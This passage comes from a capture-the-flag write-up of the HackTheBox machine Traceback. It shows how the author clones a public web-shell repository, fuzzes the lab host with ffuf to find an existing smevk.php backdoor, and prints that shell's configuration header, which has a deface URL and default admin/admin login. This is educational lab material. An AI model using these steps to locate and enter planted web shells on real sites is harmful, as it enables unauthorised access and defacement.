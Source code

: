 Lets clone the repository and create a file containing all the filenames:
```
$ git clone https://github.com/TheBinitGhimire/Web-Shells
Cloning into 'Web-Shells'...
remote: Enumerating objects: 76, done.
remote: Total 76 (delta 0), reused 0 (delta 0), pack-reused 76
Unpacking objects: 100% (76/76), 1.85 MiB | 1.74 MiB/s, done.
$ cd Web-Shells/
$ ls *.php > shells.txt
```

Now we can use this list to fuzz the website:
```
$ ffuf -c -r -ac -w shells.txt -u http://10.10.10.181/FUZZ
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.181/FUZZ
 :: Follow redirects : true
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 312
 :: Filter           : Response words: 22
 :: Filter           : Response lines: 12
________________________________________________

smevk.php               [Status: 200, Size: 1261, Words: 318, Lines: 59]
:: Progress: [16/16] :: Job [1/1] :: 8 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Looks like we found one! Let's visit the url:
![](/images/hackthebox/traceback/webshell-login.png)

There is a login, let's take a look at the source code of `smevk.php` from the
previously cloned repository:
```php
<?php
/*

SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!

*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
```